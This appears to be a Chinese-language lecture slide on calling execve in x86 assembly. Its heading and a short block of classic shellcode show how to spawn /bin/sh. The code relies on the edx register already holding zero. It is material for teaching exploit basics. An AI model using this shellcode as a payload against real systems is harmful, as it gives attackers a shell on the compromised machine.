

# 借助execve系统调用执行其他程序（以执行/bin/sh为例）

xor eax,eax
push eax
push 0x68732f2f
push 0x6e69622f
mov ebx,esp
push edx
push ebx
mov ecx,esp
xor eax,eax
mov al,0xb
int 0x80